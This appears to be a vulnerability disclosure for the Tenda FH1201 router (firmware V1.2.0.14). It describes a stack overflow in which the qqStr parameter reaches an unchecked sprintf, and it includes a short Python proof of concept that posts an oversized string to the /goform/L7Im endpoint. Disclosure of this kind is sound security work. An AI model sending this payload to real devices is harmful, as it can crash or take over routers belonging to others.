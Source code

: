# Tenda FH1201 frmL7ImForm_qqStr
### Overview
vendor: Tenda
product: FH1201
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the qqStr parameter in the frmL7ImForm function.
### Vulnerability details
In function frmL7ImForm line 16, it reads in a user-provided parameter `qqStr`, and the variable `s_2` is passed as a parameter to the `Saveqqlist` function. In `Saveqqlist` function, the variable `s_2` is assigned to the variable `s`, and the variable `s` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/5.png)
![](images/6.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Im"

data = {
    "qqStr": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/7.png)
